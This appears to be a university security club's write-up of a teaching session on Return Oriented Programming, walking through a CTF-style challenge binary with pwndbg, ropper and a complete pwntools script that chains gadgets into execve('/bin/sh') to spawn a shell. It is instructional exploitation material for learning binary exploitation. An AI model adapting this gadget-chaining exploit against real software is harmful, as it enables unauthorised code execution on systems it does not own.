 ```yaml
---
title: "Introduction to ROP Chain Attacks"
date: 2021-11-11T12:40:28+01:00
draft: true
author: "Ben Roxbee Cox"
description: "An introductory session modern binary exploitation techniques"
tags: ["pwn", "rop", "ret2libc"]
categories: ["Academic Year 2021-22"]
---
```


This week was the last of Ben's 4 week binary exploitation introductory series. It introduced the concept of Return Oriented Programming, demonstrated 2 methods of ROP exploitation on dynamic and statically linked binaries, and explained how some protections can be bypassed. The presentation slides can be downloaded [here](./presentation.pdf). We won't go into great detail into the theory of ROP, as it is covered in the presentation, but we will quickly recap on a high level.

Return Oriented Programming is a modern binary exploitation method designed to overcome the NX Stack compiler protection. It involves chaining together short series' of machine code instructions called *gadgets*. Using these gadgets, and a buffer overflow, we can redirect program flow and potentially gain code execution.  

## Demonstration 1: Classic ROP

The first demonstration covers what I call 'classic ROP'. It is the method of using ROP to achieve code execution without the use of external libraries. The first challenge binary is a statically linked.

```bash
> file challenge
challenge: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

It's not a very interesting program. It prints text to stdout, takes an input, prints something else, then exits.

```bash
> ./challenge
ROP me!
foobar
Bad luck. Exiting
```

Let's use GDB to find the offset to the return pointer, same as we did in the Stack Smashing exercises.

```py
pwndbg> cyclic 200 -n=8
pwndbg> r
pwndbg> x/xg $rsp
0x7fffffffd878: 0x6161616f61616161
pwndbg> cyclic -l 0x6161616f61616161 -n=8
108
```

We have an offset of 108, remember we can check this by sending a payload of 108 byte of junk data followed by a fake address such as `0xdeadbeef`. If 0xdeadbeef is in the RIP when the process SegFaults then we are correct.

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./challenge")
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

offset = 108

p.sendlineafter(b"ROP me!", flat({offset: pack(0xdeadbeef)}))

p.interactive()
```

Running the program and attaching to GDB in the same way as last week, we see that 0xdeadbeef is in the RIP.

![0xdeadbeef inside the RIP at SegFault](images/ss1.png)

To exploit this program, we need to build an exploit that essentially does `execve("/bin/sh", 0, 0)` like our shellcode would although we need to use gadgets rather than shellcode due to the fact that NX Stack is enabled on the binary. PIE is not enabled meaning we can search for gadgets and hard code their addresses, as their location will not change at runtime.

Remembering x86_64 calling conventions, we need the string `/bin/sh` in RDI, and 0 in RSI and RDX. We also need a gadget for RAX and a syscall.  Let's use Ropper to find the gadgets for this. 

```py
> ropper --file challenge --search "pop rdi"
[...]
0x000000000040106d: pop rdi; ret;
> ropper --file challenge --search "pop rsi"
[...]
0x0000000000401073: pop rsi; mov rdi, rsi; ret;
> ropper --file challenge --search "pop rdx"
[...]
0x0000000000401078: pop rdx; ret;
> ropper --file challenge --search "pop rax"
[...]
0x0000000000401017: pop rax; syscall;
```

There are convenient gadgets for all operations we want to do, so we can build a ROP chain using the ROP module of pwntools. We should use the `pop rsi; mov rdi, rsi; ret;` gadget first as it will clobber any data in RDI.

We also need the string `/bin/sh`. Thankfully it already exists in the binary. If this were not the case our ROP chain would need to write `/bin/sh` into memory before trying to execve.

```py
pwndbg> search /bin/sh
challenge       0x40201c 0x68732f6e69622f /* '/bin/sh' */
```

We can now finish our script.

```py
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge", checksec=False)
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

# 59 execve	const char *filename const char *const *argv const char *const *envp 	
offset = 108

pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
pop_rax_syscall = rop.find_gadget(["pop rax", "syscall"])[0]
pop_rsi_mov_rdi_rsi = 0x0000000000401073
binsh = next(elf.search(b"/bin/sh"))
pop_rdx = rop.find_gadget(["pop rdx", "ret"])[0]
pop_rax = 0x000000000040107a

rop.raw(pop_rsi_mov_rdi_rsi)
rop.raw(p64(0))
rop.raw(pop_rdi)
rop.raw(binsh)
rop.raw(pop_rdx)
rop.raw(p64(0))
rop.raw(pop_rax_syscall)
rop.raw(p64(59))

p.sendlineafter(b"ROP me!", flat({offset: rop.chain()}))

p.interactive()
```

The exploit works. This shows how we can use the native instructions present in a program to create our own malicious exploit code.

![Shell from Classic ROP](images/ss2.png)

